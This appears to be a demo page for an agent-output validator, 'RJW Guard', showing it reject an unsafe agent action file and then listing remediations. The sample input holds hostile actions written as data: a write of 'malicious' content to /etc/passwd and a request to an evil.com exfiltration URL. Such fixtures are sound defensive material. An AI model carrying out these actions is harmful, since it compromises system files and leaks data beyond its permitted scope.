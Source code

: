 # Demo: RJW Guard (Fail Case)

## Scenario
Validating an unsafe agent output that violates multiple policies.

## Input File: `examples/bad.json`
```json
{
  "agent_id": "unsafe-agent",
  "timestamp": "2025-10-07T10:00:00Z",
  "version": "1.0",
  "actions": [
    {
      "type": "file_write",
      "path": "/etc/passwd",
      "content": "malicious",
      "signed": false
    }
  ],
  "steps": [
    {
      "type": "http_request",
      "url": "https://evil.com/exfiltrate",
      "network_allowed": false
    }
  ]
}
```

## Command
```bash
$ rjw guard examples/bad.json
```

## Output
```
✖ Policy violations: 3 (ruleset=default)
 • DRIFT_UNSAFE_WRITE @ $.actions[0] → Use sandboxed path or add signature verification
 • DRIFT_UNSAFE_PATH @ $.actions[0] → Use paths within project sandbox directory
 • NET_CALL_FORBIDDEN @ $.steps[0] → Rerun with --online or disable network access
```

## Exit Code
```
$ echo $?
2
```

## JSON Output (with --format json)
```bash
$ rjw guard examples/bad.json --format json
```

```json
{
  "input_source": "examples/bad.json",
  "passed": false,
  "violations": [
    {
      "code": "DRIFT_UNSAFE_WRITE",
      "severity": "error",
      "message": "Unsigned file write detected",
      "path": "$.actions[0]",
      "remediation": "Use sandboxed path or add signature verification"
    },
    {
      "code": "DRIFT_UNSAFE_PATH",
      "severity": "error",
      "message": "File write outside sandbox: /etc/passwd",
      "path": "$.actions[0]",
      "remediation": "Use paths within project sandbox directory"
    },
    {
      "code": "NET_CALL_FORBIDDEN",
      "severity": "error",
      "message": "Network call without permission",
      "path": "$.steps[0]",
      "remediation": "Rerun with --online or disable network access"
    }
  ],
  "summary": {
    "errors": 3,
    "warnings": 0,
    "ruleset": "default",
    "duration_ms": 15
  }
}
```

## Analysis of Violations

### 1. DRIFT_UNSAFE_WRITE
**Problem**: File write operation lacks signature verification
**Risk**: Unsigned writes could modify critical files without audit trail
**Fix**: Add `"signed": true` and implement signature verification

### 2. DRIFT_UNSAFE_PATH
**Problem**: Attempting to write to `/etc/passwd` (system file)
**Risk**: Could compromise system security
**Fix**: Use paths within project sandbox (e.g., `./sandbox/output.txt`)

### 3. NET_CALL_FORBIDDEN
**Problem**: Network request without explicit permission
**Risk**: Data exfiltration or unauthorized external communication
**Fix**: Either:
  - Remove network call if not needed
  - Add `"network_allowed": true` if reviewed and approved
  - Use `--online` flag if expected behavior

## Remediation Steps

1. **Rewrite to sandboxed path**:
   ```json
   {
     "type": "file_write",
     "path": "./sandbox/output.txt",
     "content": "safe content",
     "signed": true
   }
   ```

2. **Remove or justify network call**:
   - If needed: Document in decision log why network access required
   - If not needed: Remove the step entirely

3. **Re-validate**:
   ```bash
   $ rjw guard examples/fixed.json
   ✔ Validation passed
   ```

## Verdict
🛑 **DO NOT PROCEED** - Multiple critical security violations detected.

## Learning Points
- Always write to sandboxed directories
- Sign all file operations for audit trail
- Explicitly declare network requirements
- Use guard validation before executing agent outputs
